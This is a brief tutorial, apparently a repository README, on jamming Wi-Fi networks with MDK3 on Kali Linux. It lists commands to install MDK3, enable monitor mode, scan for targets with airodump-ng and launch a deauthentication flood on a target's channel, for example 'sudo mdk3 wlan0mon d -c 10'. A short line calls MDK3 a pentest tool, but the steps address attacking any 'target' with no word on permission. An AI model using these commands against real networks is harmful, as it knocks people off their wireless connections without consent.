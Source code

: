# MDK3
WIFI jamming with MDK3

so today I am going to show you how to jam wifi networks with kali linux using MDK3.

<b>What is MDK3:</b> MDK3 is a proof of concept tool. It is used for stress testing 802.11 networks(wifi). It consists of various methods by which we can perform tests. Some of major method sare beacon flooding, deauthentication, WPA- dos etc. In pentests mdk is used for testing the network infrastructures having 802.11 implementations and ensuring compliance standards.

So lets begin:

1) Open up the terminal and type <b>"sudo apt install mdk3"</b>
<img src = "IMG_20200423_105410[1].jpg" height=250px >

2) Open up another terminal and start monitor mode by typing <b>"sudo airmon-ng start (interface)"</b>
   (you can check your interface by typing <b>"ifconfig"</b> my  interface is wlan0)
  
3) In the same terminal again type <b>"ifconfig"</b> to view the interace you have started monitor mode in (for example if your interface before was "wlan0" after montor made it will be changed to "wlan0mon")

4) Now we look for targets to attack on, for that type <b>"sudo airodump-ng ( monitor-mode interface)"</b>( press ctrl+c to stop the scan)
  <img src ="IMG_20200423_105616.jpg" height=250px width=300px>
  
5) Find the channel no. your target is on and then in the mdk3 terminal type <b>" sudo mdk3 (monitor-mode interface) d -c (your targets channel number)"</b>  example: <b>"sudo mdk3 wlan0mon d -c 10"</b>]



Now the wifi network of your target is jammed ad it wont staop until you stop the program by ressing ctrl+c
